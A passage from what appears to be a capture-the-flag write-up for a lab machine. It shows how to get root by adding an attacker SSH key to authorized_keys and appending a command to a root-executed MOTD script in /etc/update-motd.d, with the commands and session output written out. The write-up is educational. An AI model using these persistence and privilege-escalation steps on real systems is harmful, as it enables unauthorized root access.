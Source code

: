 
**Very nice! Each time we login, whatever the user, the scripts located in */etc/update-motd.d/* are executed as root user.**
We just need to find a way to login using SSH and we are done!

### 3.5 Getting root.txt

The SSH login part is easy as we have acces to our ***.ssh/authorized_keys*** file.
Let's add our public key corresponding to our attacking machine private key (or generate a pair of keys with **`ssh-keygen`**) to the ***.ssh/authorized_keys*** file.

On our machine: **`# cat .ssh/id_rsa.pub`**
On the target: **`$ echo "cat_id_rsa_result" >> /home/sysadmin/.ssh/authprized_keys`**

Now let's try to log in:
~~~
root@kali:~# ssh -i id_rsa sysadmin@10.10.10.181
Warning: Identity file id_rsa not accessible: No such file or directory.
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land


Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
$ exit
Connection to 10.10.10.181 closed.
~~~

It works and we see it displays "Welcome to Xh4H land", which means it probably displays the output of the ***00-header*** script execution.

Now let's try to modify the ***00-header*** script and login **immediately** after that:
~~~
sysadmin@traceback:$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
~~~

When we login as ***sysadmin***:

![root-txt.png](images/root-txt.png)
